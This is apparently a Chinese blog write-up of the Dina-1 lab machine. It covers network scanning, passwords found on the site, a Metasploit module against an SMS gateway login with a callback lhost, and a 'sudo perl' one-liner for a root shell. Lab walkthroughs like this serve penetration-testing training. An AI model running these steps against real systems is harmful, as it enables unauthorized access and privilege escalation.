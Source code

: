 ```yaml
---
layout: post
title: Dina-1
subtitle: Dina-1
date: 2025-07-08 10:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机发现

```shell
sudo arp-scan -l
```

![image.png300](https://img.ghostliner.top/lLgUbT.png)

```shell
nmap -T4 -A -p- 192.168.163.133
```

![image.png300](https://img.ghostliner.top/A2HyBe.png)

只有80端口，访问网站，目录扫描，扫描到`robots.txt` secure目录
![image.png300](https://img.ghostliner.top/Lsk2KW.png)

`/nothing`  发现密码 `my secret pass freedom password helloworld! diana iloveroot`
![image.png300](https://img.ghostliner.top/ppisSE.png)

下载 http://192.168.163.133/secure/backup.zip

使用密码 `freedom` 成功解压
![image.png300](https://img.ghostliner.top/iQNEDt.png)

访问 `/SecreTSMSgatwayLogin` 登陆用户名：touhid 密码：diana

浏览网站发现`send from file`页面可以上传文件，上传木马显示成功，但未找到

```shell
# 扫描网站框架
whatweb -v http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/BuPbjv.png)

msf搜索相关漏洞，选择0
![image.png300](https://img.ghostliner.top/TDlxDk.png)

```shell
options
set rhosts 192.168.163.133
set lhost 192.168.163.132
set username touhid
set password diana
set TARGETURI http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/XVCPJ6.png)

```shell
sudo perl -e 'exec "/bin/bash";'
```

![image.png300](https://img.ghostliner.top/RSWciW.png)
